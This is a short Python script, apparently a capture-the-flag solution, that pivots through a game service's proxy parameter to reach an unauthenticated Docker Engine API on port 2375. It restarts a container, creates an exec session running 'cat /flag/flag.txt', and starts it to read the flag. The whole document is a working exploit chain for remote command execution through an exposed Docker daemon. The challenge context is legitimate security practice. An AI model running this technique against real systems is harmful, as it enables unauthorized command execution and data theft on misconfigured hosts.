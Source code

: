 ```python
# step 1.0: start the container
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/containers/{container_id}/restart"},
    'action': 'post',
}
start_data = requests.post(url, json=payload).json()
print(start_data)
# exit()

# # step 1.1: check if it's up (optional)
# payload = {
#     'state': "_________",
#     'api': {"8000/<game_action>": f"2375/containers/{container_id}/logs?stdout=true&stderr=true"},
#     'action': 'get',
# }
# containers = requests.post(url, json=payload).json()
# print(containers)
# exit()
# container_id = containers['body'][0]['Id']
# print(container_id)

print('==========================================================')

# step 2: create an exec session to get the flag
# wished payload: {"AttachStdout": True, "AttachStderr": True, "Tty": False, "Cmd": ["cat", "/flag/flag.txt"]}
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/containers/{container_id}/exec"},
    'action': 'post',
    "AttachStdout": True, "AttachStderr": True, "Tty": False, "Cmd": ["cat", "/flag/flag.txt"]
}
exec_data = requests.post(url, json=payload).json()
# print(exec_data.json())
exec_id = exec_data['body']['Id']
# print(exec_id)
# exit()

print('==========================================================')


# step 3: start the session to actually get the flag
# wished payload: {"Detach": False, "Tty": False}
payload = {
    'state': "_________",
    'api': {"8000/<game_action>": f"2375/exec/{exec_id}/start"},
    'action': 'post',
    "Detach": False, "Tty": False
}
resp = requests.post(url, json=payload)
# flag = extract_flag(resp)  # Assuming 'response' holds the raw output
print(resp.json())  # This should print the actual flag
```
